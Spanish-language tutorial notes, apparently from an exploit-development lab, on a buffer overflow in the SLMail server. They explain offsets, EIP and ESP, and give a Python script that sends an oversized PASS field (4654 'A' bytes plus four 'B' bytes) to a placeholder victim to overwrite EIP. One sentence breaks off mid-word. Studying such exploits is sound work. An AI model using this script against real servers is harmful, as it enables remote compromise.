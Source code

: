 #BufferOverflow #ShellCode #SLMail 

Una vez tenemos calculado el offset(cantidad de caracteres a introducir antes del EIP), si introducimos cuatro caracteres adicionales estos van a estar representados en el *EIP* como dirección.
Una vez sobrescrito el *EIP* veremos que los datos se almacenan al comienzo de la pila(stack) en el registro *ESP (Extended Stack Pointer)*, este es un registro de la CPU que se utiliza para manejar la pila en un programa.
La pila es una zona de memoria temporal que se utiliza para almacenar valores y *direcciones de retorno* de las funciones a medida que se van llamando al programa.
Una vez identificados estos caracteres en la memoria la idea principal es intro



```python
	#!/usr/bin/python3
	
	import socket
	import sys
	
	#Variables globales
	ip_adress = <IP_Victima>
	port = <Puerto>
	offset = 4654 #Ofset que nos ha dado metasploit
	
	before_eip = b"A"*offset #Cadena de A antes de llegar al offset(valor del EIP)
	eip = b"B"*4 # Cadena con el valor del EIP, es *4 por que es la capacidad del registro EIP
	
	payload = before_eip + eip
	
	#Exploit
	def exploit():
		
		#Crar socket
		s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
		
		#Conectar con el servidor
		s.connect((ip_adress, port))
		
		#Recibir la respuest(banner)
		banner = s.recv(1024)
		
		s.send(b"USER test" + b'\r\n') #Enviamos un usuario en el campo USER aleatorio en este caso TEST
		response = s.recv(1024)
		s.send(b"PASS " + payload + b'\r\n') #En el campo PASS introducira el payload que es igual a 4654 + eip
		s.close()
		
	if __name__ == '__main__':
		
		exploit()
		
```